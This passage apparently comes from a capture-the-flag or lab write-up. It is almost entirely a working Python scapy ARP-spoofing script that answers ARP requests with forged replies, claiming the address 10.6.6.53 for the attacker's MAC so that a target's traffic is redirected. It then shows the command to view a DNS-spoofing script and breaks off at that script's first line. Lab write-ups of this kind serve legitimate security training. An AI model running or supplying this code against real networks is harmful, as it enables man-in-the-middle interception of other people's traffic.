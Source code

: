 <pre><code class="python">#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
mymacaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
#mymacaddr = '02:42:0a:06:00:02' # sometimes last number changes !!!
targetmacaddr = '4c:24:57:ab:ed:84'

def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst=targetmacaddr, type=0x806, src=mymacaddr)

        arp_response = ARP(pdst="10.6.6.35")
        arp_response.op = 2 # arp response
        arp_response.plen = None
        arp_response.hwlen = None
        arp_response.ptype = "IPv4"
        arp_response.hwtype = 0x1 # ether

        arp_response.hwsrc = mymacaddr
        arp_response.psrc = "10.6.6.53"
        arp_response.hwdst = targetmacaddr
        arp_response.pdst = "10.6.6.35"

        response = ether_resp/arp_response

        sendp(response, iface="eth0")

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)

if __name__ == "__main__":
    main()
</code></pre>

<pre><code class="bash">cat dns_resp.py</code></pre>

<pre><code class="python">#!/usr/bin/python3
